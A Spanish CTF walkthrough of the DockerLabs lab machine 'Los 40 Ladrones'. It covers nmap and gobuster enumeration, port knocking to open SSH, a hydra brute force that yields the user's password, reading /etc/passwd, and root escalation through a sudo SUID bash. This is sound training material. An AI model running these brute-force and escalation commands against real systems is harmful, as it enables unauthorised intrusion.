

# Los 40 Ladrones


Dificultad -> Easy

Enlace a la máquina -> [DockerLabs](https://dockerlabs.es/)

-----------
## WriteUp Los 40 Ladrones

Para desplegar el laboratorio, simplemente tendremos que ejecutar el script auto_deploy.sh que viene junto a la máquina en formato .tar.

```bash
sudo bash auto_deploy.sh trust.tar
```

Como vemos, nos da la IP de la máquina desplegada y estamos listos para empezar.

 

Lo primero que haremos, es identificar nuestra IP de atacantes. Esto podemos hacerlo rápidamente con el siguiente comando. Hay otras opciones como ifconfig o hostname -I. 

```bash
ip a s [Interfaz]
```


Con nuestra IP de atacantes identificada, ahora tenemos que conocer la IP de la máquina objetivo. En este caso al desplegar la máquina, podremos verla. No siempre así, por lo que para identificarla desde nuestro Kali, podemos ejecutar alguno de los siguientes comandos 

```bash
sudo nmap -sn [RangoIP/16]
```
```bash
sudo arp-scan -I [Interfaz] --localnet --ignoredups --ouifile=/usr/share/arp-scan/ieee-oui.txt --macfile=/etc/arp-scan/mac-vendor.txt
```


Como vemos, solo hay un equipo en esta red, que se corresponde con la máquina vulnerable desplegada anteriormente y cuya IP coincide con la que nos dio el script auto_deploy.sh

Lo siguiente que vamos a hacer, es crearnos nuestros directorios de trabajo para tenerlo todo ordenado. Nos vamos a meter en el directorio nmap, y empezamos con la fase de enumeración. 


Comenzamos lanzando un ping para ver que la máquina está encendida. Además, esto nos va a permitir identificar en un primer lugar ante que nos enfrentamos fijándonos en el valor del TTL. Como vemos, es de 64, por lo que podemos intuir que estamos ante un Linux. Si este valor fuera de 128, podríamos pensar que es un Windows. 


```bash
ping -c 1 [IPObjetivo]
```


Ahora con nmap, vamos a tratar de ver que puertos se encuentran abiertos en el objetivo. Lanzamos nmap con los siguientes parámetros.

```bash
sudo nmap -p- --open -sS -vvv -n -Pn [IPobjetivo] -oG [Archivo]
```

- Parámetos de nmap
  - *-p-* Escanea el rango total de puertos (65535). 
  - *--open* Nos reportará solo los puertos abiertos. 
  - *-sS* (TCP SYN), también conocido como TCP SYN scan o Half-Open Scan. Es un tipo de escaneo más sigiloso que otro tipo de escaneos ya que no completa la conexión TCP, evitando en gran medida que se registre en los logs del sistema objetivo. Sin embargo, algunos sistemas de seguridad si que pueden detectar este tipo de escaneo y tomar medidas.
  - *-vvv* Triple verbose, para ver en consola lo que vaya encontrando nmap
  - *-n* Para no aplicar resolución DNS 
  - *-Pn* No realiza detección de Host. Con este parámetro nmap asumirá que los Host especificados están activos. 
  - *-oG* Genera un archivo de salida en formato Greppable, con el nombre que le hayamos especificado


Tal y como vemos en la imagen, solo encontramos abierto el puerto 80. 

Vamos a volver a tirar de nmap, para realizar un segundo escaneo de la versión de los servicios que corren en este puerto; así como para lanzar un conjunto de scripts básicos de reconocimiento que nos permitan enumerar mejor este objetivo. 


```bash
sudo nmap -sC -sV -p[Puertos] [IPObjetivo] -oN [Archivo]
```


Identificamos en primer lugar que nos vamos a enfrentar a un Ubuntu, y podemos ver también la versión correspondiente. Con el título de la página, podemos intuir también que vamos a encontrar simplemente la página por defecto de Apache2 en Ubuntu. De hecho si le echamos un vistazo desde el navegador, podemos verlo 


En este punto, decidimos hacer Fuzzing Web para tratar de enumerar directorios ocultos, tirando para ello de Gobuster, tratando de encontrar extensiones php, HTML y txt. 

```bash
gobuster dir -u http://[IPObjetivo] -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,txt -o hidden_directory
``` 


Gobuster nos reporta un archivo interesante llamado qdefense.txt que vamos a inspeccionar. 

```bash
curl http://[IPObjetivo]/qdefense.txt
```


```
Recuerda llama antes de entrar , no seas como toctoc el maleducado
7000 8000 9000
busca y llama +54 2933574639
```

Al tratarse de un CTF, podemos intuir que toctoc es un usuario. Luego la secuencia 7000 8000 9000, bien podrían ser puertos. Esto nos recuerda a Port Knocking. El port Knocking es una técnica para abrir puertos externamente en un firewall mediante una secuencia preestablecida de intentos de conexión a puertos que se encuentran cerrados. Una vez el firewall recibe una secuencia de conexión correcta, sus reglas son modificadas para permitir al host que realizó los intentos, conectarse a un puerto específico. 

Lo que vamos a hacer, es utilizar la herramienta knock, que lo que hace es enviar secuencias de "knocks" a un servidor para activar una acción específica, como en este caso, abrir un puerto en concreto. 

```bash
knock -v [IPObjetivo] 7000 8000 9000
```


Con esto hecho, si estamos en el camino correcto; si volvemos a realizar un escaneo con nmap para ver los puertos abiertos, deberíamos ver algo nuevo. 

```bash
nmap -p- --open -sS -vvv -n -Pn [IPvictima] -oG [archivo]
```


Tal y como vemos en la imagen, ahora tenemos abiertos el puerto 80 y el puerto 22 (SSH). Vamos a lanzar un conjunto de script básicos de reconocimiento para estos puertos y tratar de enumerar la versión como siempre 

```bash
nmap -sC -sV -p[Puertos] [IPObjetivo] -oN [Archivo]
```


En principio la versión de SSH no parece vulnerable. Pero lo que si que podemos tratar de hacer, es un ataque de fuerza bruta utilizando el nombre de usuario que encontramos anteriormente en la nota (toctoc) utilizando para ello como siempre hydra. 

```bash
hydra -l toctoc -P /usr/share/wordlists/rockyou.txt ssh://[IPObjetivo]:22 -o credentials.txt -V -t 50 -f
```

Si le hacemos un cat al archivo generado, podremos ver las credenciales 


```
Usuario: toctoc
Contraseña: kittycat
```

Pues ya con unas credenciales válidas, podemos tratar de conectarnos mediante SSH al objetivo 

```bash
ssh toctoc@[IPObjetivo] -p 22
```


Si queremos hacer un tratamiento de la TTY para trabajar de forma más cómoda, en este caso nos valdrá con cambiar la variable TERM a xterm para limpiar la consola con CTRL + L, ya que lo demás funciona correctamente. 

```bash
export TERM=xterm
```

Algo que hacemos siempre al ganar acceso a un equipo, es echarle un vistazo al /etc/passwd 

```bash
cat /etc/passwd | grep "sh$"
```


Vemos que hay 3 usuarios. El usuario root, el usuario ubuntu y el usuario toctoc. Pues bueno ahora es hora de elevar privilegios. 

Si comprobamos los permisos de sudo para el usuario toctoc, veremos lo siguiente 

```bash
sudo -l
```



Podemos ejecutar con sudo el binario /opt/bash. Si listamos además los permisos de este binarios, vemos que efectivamente tiene el bit SUID activo y el propietario es root. Por lo que si ejecutamos el siguiente comando, en teoría debería darnos una bash como root 

```bash
sudo /opt/bash -p
```


